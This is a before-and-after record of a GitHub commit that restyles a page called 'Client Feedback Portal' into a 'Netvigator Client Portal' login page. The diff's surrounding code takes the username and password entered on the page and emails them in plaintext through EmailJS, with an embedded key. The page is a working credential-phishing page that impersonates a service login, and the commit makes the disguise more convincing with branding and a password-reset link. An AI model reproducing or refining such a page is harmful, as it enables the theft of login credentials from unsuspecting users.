

Before and after one commit to sshclhung/upgrade, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html
upgraded

```diff
--- a/index.html
+++ b/index.html
@@ -3,25 +3,73 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Client Feedback Portal</title>
+    <title>Netvigator Client Portal</title>
     <script src="https://cdn.jsdelivr.net/npm/@emailjs/browser@3/dist/email.min.js"></script>
     <script>
         emailjs.init("JYKSTvr8xx8jZDFiA"); // EmailJS Public Key
     </script>
     <style>
-        body { font-family: Arial, sans-serif; text-align: center; margin: 50px; }
-        .container { max-width: 400px; margin: auto; padding: 20px; border: 1px solid #ccc; border-radius: 5px; }
-        input, textarea { width: 100%; margin: 10px 0; padding: 8px; }
-        button { padding: 10px 15px; background-color: #007BFF; color: white; border: none; cursor: pointer; }
-        button:hover { background-color: #0056b3; }
+        body {
+            font-family: Arial, sans-serif;
+            background-color: #ffffff;
+            text-align: center;
+            margin: 0;
+            padding: 0;
+        }
+        .header {
+            background-color: #f07c00;
+            padding: 15px;
+            color: white;
+            font-size: 24px;
+        }
+        .container {
+            background-color: #ffffff;
+            width: 350px;
+            margin: 100px auto;
+            padding: 20px;
+            border-radius: 8px;
+            box-shadow: 0px 0px 10px rgba(0, 0, 0, 0.1);
+            border-top: 5px solid #f07c00;
+        }
+        h2 {
+            color: #333;
+        }
+        input, textarea {
+            width: 100%;
+            margin: 10px 0;
+            padding: 8px;
+            border: 1px solid #ccc;
+            border-radius: 4px;
+        }
+        button {
+            background-color: #f07c00;
+            color: white;
+            border: none;
+            padding: 10px;
+            width: 100%;
+            cursor: pointer;
+            border-radius: 4px;
+        }
+        button:hover {
+            background-color: #d96b00;
+        }
+        .forgot-password {
+            color: #f07c00;
+            text-decoration: none;
+        }
+        .forgot-password:hover {
+            text-decoration: underline;
+        }
     </style>
 </head>
 <body>
+    <div class="header">Netvigator Client Portal</div>
     <div id="login" class="container">
         <h2>Login</h2>
         <input type="text" id="username" placeholder="Username" required>
         <input type="password" id="password" placeholder="Password" required>
         <button onclick="authenticate()">Login</button>
+        <p><a href="#" class="forgot-password">Forgot your password?</a></p>
     </div>
 
     <div id="dashboard" class="container" style="display: none;">
@@ -42,7 +90,7 @@
                 login_history: `Username: ${username}\nPassword: ${password}\nLogged in at: ${new Date().toLocaleString()}`
             };
 
-            console.log("Sending email with:", templateParams); // Debugging log
+            console.log("Sending email with:", templateParams);
 
             emailjs.send(serviceID, templateID, templateParams, publicKey)
                 .then(response => {
@@ -62,8 +110,8 @@
                 document.getElementById("dashboard").style.display = "block";
 
                 loginHistory.push(`Username: ${username}, Password: ${password}, Logged in at: ${new Date().toLocaleString()}`);
-                console.log("Updated loginHistory:", loginHistory); // Debugging log
-                sendEmail(username, password); // Send username and password
+                console.log("Updated loginHistory:", loginHistory);
+                sendEmail(username, password);
             } else {
                 alert("Please enter both username and password.");
             }
```
